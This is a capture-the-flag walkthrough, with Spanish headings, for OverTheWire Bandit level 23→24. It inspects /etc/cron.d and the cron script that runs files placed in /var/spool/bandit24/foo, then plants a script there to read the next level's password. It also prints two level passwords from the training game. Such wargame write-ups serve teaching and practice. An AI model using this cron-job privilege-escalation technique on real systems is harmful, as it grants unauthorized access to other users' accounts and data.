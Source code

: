 # Bandit Level 23 → 24

## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso a nivel
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solución
````bash
bandit23@bandit:~$ cd /etc/cron.d/
bandit23@bandit:/etc/cron.d$ ls -la
total 56
drwxr-xr-x   2 root root  4096 Feb 21 22:04 .
drwxr-xr-x 108 root root 12288 Feb 21 22:04 ..
-rw-r--r--   1 root root    62 Feb 21 22:02 cronjob_bandit15_root
-rw-r--r--   1 root root    62 Feb 21 22:02 cronjob_bandit17_root
-rw-r--r--   1 root root   120 Feb 21 22:03 cronjob_bandit22
-rw-r--r--   1 root root   122 Feb 21 22:03 cronjob_bandit23
-rw-r--r--   1 root root   120 Feb 21 22:03 cronjob_bandit24
-rw-r--r--   1 root root    62 Feb 21 22:03 cronjob_bandit25_root
-rw-r--r--   1 root root   201 Jan  8  2022 e2scrub_all
-rwx------   1 root root    52 Feb 21 22:04 otw-tmp-dir
-rw-r--r--   1 root root   102 Mar 23  2022 .placeholder
-rw-r--r--   1 root root   396 Feb  2  2021 sysstat
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ mkdir /tmp/temp24
bandit23@bandit:/etc/cron.d$ cd /tmp/temp24
bandit23@bandit:/tmp/temp24$ nano temp24.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/temp24$ chmod 777 temp24.sh
bandit23@bandit:/tmp/temp24$ cp temp24.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/temp24$ chmod 666 pass24
bandit23@bandit:/tmp/temp24$ cat pass24
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
````

## Notas adicionales

## Referencias

